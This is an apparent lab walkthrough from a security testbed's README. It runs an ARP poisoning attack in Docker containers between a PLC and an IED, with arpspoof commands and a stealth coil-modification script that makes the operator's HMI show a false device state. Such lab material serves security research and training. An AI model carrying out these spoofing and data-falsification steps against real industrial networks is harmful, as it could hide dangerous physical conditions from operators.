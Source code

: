 This section describes the procedure for conducting an ARP poisoning attack to inject false data between the MPLC and M-IED1 without detection by the operator. Notably, all files and tools required to execute this attack are already included within the provided Docker container.

- Use the ARP attacker node:
```bash
docker exec -ti Attacker-Node-ARP bash
```

--- 

The first step involves sending gratuitous ARP messages to the victims to poison their respective ARP tables.

- ARP spoofing targeting M-IED1:
```bash
arpspoof -i eth0 10.0.0.192 -rt 10.0.0.21
```
![mied1 spoof](https://github.com/NS-unina/SCASS/blob/master/AttackerNode-ARP/images/poison-mied1.png "Figure: mied1 spoof")

- ARP spoofing targeting MPLC:
```bash
arpspoof -i eth0 10.0.0.21 -rt 10.0.0.192
```
![mplc spoof](https://github.com/NS-unina/SCASS/blob/master/AttackerNode-ARP/images/poison-MPLC.png "Figure: mplc sppof")

Then, he attacker can intercept and modify the network traffic to reach their malicious objectives.

```bash
python3 coilModificationStealth.py
```
![Packet Modification](https://github.com/NS-unina/SCASS/blob/master/AttackerNode-ARP/images/spoof.png "Figure: Packet Modification")

In this case, from the HMI interface, we can observe that MIED1 appears to be closed. However, by checking the MIED1 status, it is possible to confirm that the displayed MIED1 is open.

![HMI](https://github.com/NS-unina/SCASS/blob/master/AttackerNode-ARP/images/HMI.png "Figure: HMI")

- Use the MIED1 container:
```bash
docker exec -ti M-IED1 bash
```
- Check coil status:
```bash
cat status.txt ; echo
```
![Coil status](https://github.com/NS-unina/SCASS/blob/master/AttackerNode-ARP/images/coilStatus.png "Figure: Coil status")
